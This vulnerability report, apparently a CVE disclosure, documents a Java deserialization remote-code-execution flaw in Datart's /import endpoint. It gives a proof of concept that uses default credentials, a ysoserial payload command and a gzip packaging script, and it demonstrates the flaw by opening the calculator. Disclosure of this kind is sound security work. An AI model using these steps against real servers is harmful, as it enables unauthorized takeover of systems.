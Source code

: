 ## Title: deserialization Vulnerability in Datart  ≤ 1.0.0-rc.3

**BUG_Author:** gggggggga

**Affected Version:** Datart  ≤ 1.0.0-rc.3

**Vendor:** [Datart GitHub Repository](https://github.com/piqi233/cves)

**Software:** [Datart](https://github.com/running-elephant/datart/)

**Vulnerability Files:**

- `datart.server.service.impl.VizServiceImpl`

## Description:

1. **Deserialization Vulnerability via File Parameter:**

   - In the method `extractModel(MultipartFile file)` located in the service class, the file parameter is directly deserialized without proper validation or sanitization.
   - The method uses `ObjectInputStream` to deserialize the contents of the file, which can be controlled by an attacker. This allows an attacker to send a maliciously crafted file that, when deserialized, can execute arbitrary code on the server (leading to Remote Code Execution).
   - The vulnerability is exposed via the route `POST /import` in the `importViz` method, where the `file` parameter is passed to the `extractModel` method for processing.

2. **Exploiting the Deserialization Vulnerability:**

   - An attacker can exploit this vulnerability by uploading a specially crafted file (e.g., a serialized object) that, when deserialized, triggers the execution of malicious code.
   - The malicious file could potentially allow an attacker to execute arbitrary code, leading to Remote Code Execution (RCE) on the server.

3. **Exploit Steps:**

   **Step 1: Login**
   The attacker must first authenticate by logging in through the application’s login endpoint. For example:

   ```
   POST http://<target-ip>/login
   Username: demo
   Password: 123456
   ```

   **Step 2: Upload the Malicious File**
   Once logged in, the attacker can upload a malicious file to the `/import` endpoint, which is processed by the `importViz` method. The uploaded file is then passed to the `extractModel` method for deserialization:

   ```
   POST http://<target-ip>/import
   Content-Type: multipart/form-data
   File: [malicious file containing a serialized object]
   ```

4. **Example Malicious File:**

   The malicious file should contain a serialized object designed to exploit the deserialization vulnerability, triggering remote code execution when processed by the server.

5. **Verifying the Exploit:**

   If the deserialization is successful and the malicious file is processed, the attacker may gain control over the server and execute arbitrary code, leading to Remote Code Execution (RCE).

## Proof of Concept:

1. Access the login page of the vulnerable application:
   ```
   http://localhost:8080/login
   ```

2. Use the following credentials to attempt login:
   ```
   Username: demo
   Password: 123456
   ```

3. Use ysoserial to generate malicious serialized data:

   ```
   java -jar ysoserial.jar CommonsBeanutils1 "calc" > payload.ser
   ```

4. Use the following script to package `payload.ser` into a `payload.ser.gz` file,This Java code reads the `payload.ser` file from the specified path (`E:\\xxx\\payload.ser`), compresses it using GZIP, and writes the output to `payload.ser.gz`.:

   ```
   public class abc {
       public static void main(String[] args) throws IOException {
           try (FileInputStream fis = new 		   FileInputStream("C:\\xxx\\payload.ser");
                FileOutputStream fos = new FileOutputStream("payload.ser.gz");
                GZIPOutputStream gzipOut = new GZIPOutputStream(fos)) {
               byte[] buffer = new byte[1024];
               int len;
               while ((len = fis.read(buffer)) > 0) {
                   gzipOut.write(buffer, 0, len);
               }
           }
       }
   }
   
   ```

5. upload the evil file payload.ser.gz

![image-20241216231621478](https://github.com/piqi233/cves/blob/main/description/assets/image-20241216231621478-1734362191375-1.png)

Successfully executed the `calc` command, which opens the calculator.

![image-20241216231758863](https://github.com/piqi233/cves/blob/main/description/assets/image-20241216231758863.png)
